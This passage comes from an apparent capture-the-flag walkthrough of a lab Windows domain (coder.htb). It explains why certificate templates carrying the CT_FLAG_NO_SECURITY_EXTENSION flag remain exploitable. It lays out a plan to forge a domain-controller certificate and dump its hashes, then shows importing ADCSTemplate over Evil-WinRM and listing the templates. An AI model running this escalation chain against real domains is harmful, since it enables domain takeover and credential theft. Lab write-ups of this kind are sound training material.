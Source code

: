 The post also says that while this vulnerability was patched in the May 2022 security updates, that:

> Certificate Templates with the new `CT_FLAG_NO_SECURITY_EXTENSION` (`0x80000`) flag set in the `msPKI-Enrollment-Flag` attribute will **not** embed the new `szOID_NTDS_CA_SECURITY_EXT` OID, and therefore, these templates are **still vulnerable** to this attack. It is unlikely that this flag is set, but you should be aware of the implications of turning this flag on.

#### Strategy

e.black has permissions over the PKI / ADCS. I’ll use this to import a new ADCS template with the `CT_FLAG_NO_SECURITY_EXTENSION` flag set.

Then as s.blade, I’ll add a computer to the domain, specifically to the BuildAgents OU, with the `dNSHostName` set to `DC01.coder.htb`.

Then I’ll enroll that new machine with the malicious template.

Then I’ll use `certipy` to get a certificate for the DC, using the password associated with the newly added computer as auth.

With that certificate, I can dump hashes from the DC.

#### Create Template

I’ll use [ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) PowerShell scripts to interact with templates on the host. I’ll upload it, and import it:

```
*Evil-WinRM* PS C:\programdata> import-module .\ADCSTemplate.psm1

```

I’ll list the current templates:

```
*Evil-WinRM* PS C:\programdata> get-adcstemplate | fl displayname

displayname : User
displayname : User Signature Only
displayname : Smartcard User
displayname : Authenticated Session
displayname : Smartcard Logon
displayname : Basic EFS
displayname : Administrator
displayname : EFS Recovery Agent
displayname : Code Signing
displayname : Trust List Signing
displayname : Enrollment Agent
displayname : Exchange Enrollment Agent (Offline request)
displayname : Enrollment Agent (Computer)
displayname : Computer
displayname : Domain Controller
displayname : Web Server
displayname : Root Certification Authority
displayname : Subordinate Certification Authority
displayname : IPSec
displayname : IPSec (Offline request)
displayname : Router (Offline request)
displayname : CEP Encryption
displayname : Exchange User
displayname : Exchange Signature Only
displayname : Cross Certification Authority
displayname : CA Exchange
displayname : Key Recovery Agent
displayname : Domain Controller Authentication
displayname : Directory Email Replication
displayname : Workstation Authentication
displayname : RAS and IAS Server
```